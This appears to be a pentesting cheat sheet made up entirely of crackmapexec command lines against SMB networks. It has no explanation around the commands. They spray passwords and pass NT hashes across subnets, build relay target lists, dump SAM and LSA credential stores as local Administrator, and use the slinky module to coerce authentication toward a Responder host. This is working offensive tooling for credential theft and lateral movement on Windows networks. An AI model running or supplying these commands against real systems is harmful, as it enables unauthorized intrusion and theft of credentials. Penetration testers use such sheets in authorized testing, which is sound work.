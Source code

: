crackmapexec

~~~bash
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~

~~~bash
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~

~~~bash
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~

~~~bash
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

~~~bash
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~